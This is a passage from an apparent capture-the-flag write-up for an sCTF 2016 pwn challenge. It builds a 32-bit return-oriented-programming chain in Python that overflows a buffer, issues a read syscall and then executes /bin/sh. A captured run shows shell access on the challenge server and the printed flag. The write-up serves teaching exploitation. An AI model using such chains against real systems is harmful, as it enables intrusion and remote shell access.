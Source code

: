 so the ropchain that reads "/bin/sh" string is  

```python
def p32(x): return pack('<I', x)
data = ''
data += "A"*48
data +=  p32(0x0804841a) #clean eax
data +=  p32(0x080484d3)*3 #eax = 3 -> syscall read
data += p32(0x0804835d) #pop ebx
data += p32(0xffffffff) #to be popped to ebx
data += p32(0x080484d5) #set ebx = 0
data +=  p32(0x08048459) #clean edx
data += p32(0x080484d9)*7 #set edx=7
data += p32(0x0804849a)*70 #clean ecx with overflow
data += p32(0x080484d7)*2 #ecx=2
data += p32(0x0804849a)*8 #add ecx , ecx
data += p32(0x080484d7) #inc ECX
data += p32(0x0804849a)*3 
data += p32(0x080484d7) 
data += p32(0x0804849a)*2
data += p32(0x080484d7)
data += p32(0x0804849a)*7
data += p32(0x080484d7)
data += p32(0x0804849a)*6
data += p32(0x080484d0) #int 80
```

and the second part is easier, just set `EAX = 11, EBX = BSS`:
```python
data +=  p32(0x08048459) #clean edx
data += p32(0x0804849a)*100 #reset ecx
data += p32(0x0804835d) #pop ebx
data += p32(0x080484d3)*4 #eax = 11
data += p32(0x080484d0) #int 80
data += '\n'
```

the full exploit is available [here]( {{ site.baseurl }}/files/sctf2016/pwn2/exploit.py)! 

```bash
$ python exploit.py problems2.2016q1.sctf.io 1338
How many bytes do you want me to read? 

You said: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�ӄӄӄ]���ՄY�للللللل��������������������������������������������������������������������������������������������������������������������������������������������ׄׄ����������������ׄ������ׄ����ׄ��������������ׄ������������ЄY���������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������]�@�ӄӄӄӄЄ
/bin/sh
id
uid=1001(pwn2) gid=1001(pwn2) groups=1001(pwn2)
whoami
pwn2
cat flag.txt
sctf{r0p_70_th3_f1n1sh}
```

In conclusion it was a very nice ROP challenge!!
